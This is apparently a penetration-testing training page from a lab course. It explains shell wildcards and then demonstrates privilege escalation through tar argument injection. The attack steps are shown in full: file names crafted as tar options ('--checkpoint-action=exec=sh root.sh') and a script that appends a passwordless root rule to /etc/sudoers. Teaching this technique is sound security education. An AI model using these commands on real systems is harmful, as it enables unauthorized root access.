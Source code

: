 ```yaml
---
description: >-
  A wildcard character can be used as a replacement for other characters and are
  interpreted by the shell before other actions.
---
```


# Wildcard Abuse

<table data-header-hidden><thead><tr><th width="128"></th><th></th></tr></thead><tbody><tr><td><strong>Character</strong></td><td><strong>Significance</strong></td></tr><tr><td><code>*</code></td><td>An asterisk that can match any number of characters in a file name.</td></tr><tr><td><code>?</code></td><td>Matches a single character.</td></tr><tr><td><code>[ ]</code></td><td>Brackets enclose characters and can match any single one at the defined position.</td></tr><tr><td><code>~</code></td><td>A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.</td></tr><tr><td><code>-</code></td><td>A hyphen within brackets will denote a range of characters.</td></tr></tbody></table>

## Example

privilege escalation using the `tar` command

**Checking man page for tar command**

```shell-session
man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

In this scenario, we will be abusing the --checkpoint-action command which permits EXEC action to be executed when checkpoint is reached

* run arbitrary code once tar command executes

Creating files with these names, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options

Suppose a cron job exists which creates a archive of a root directory uisng tar command

```bash
#
#
mh dom mon dow command
*/01 * * * * cd /root && tar -zcf /tmp/backup.tar.gz *
```

> Note that the above cronjob could also be vulnerable to path abuse for `cd` and `tar` command

When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

```shell-session
htb_student@NIX02:~$ echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb_student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb_student@NIX02:~$ echo "" > --checkpoint=1
```

We can check and see that the necessary files were created.

```shell-session
htb_student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 cliff.moore cliff.moore    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 cliff.moore cliff.moore    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 cliff.moore cliff.moore   60 Aug 31 23:11 root.sh
```

Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.

```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for cliff.moore on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cliff.moore may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```

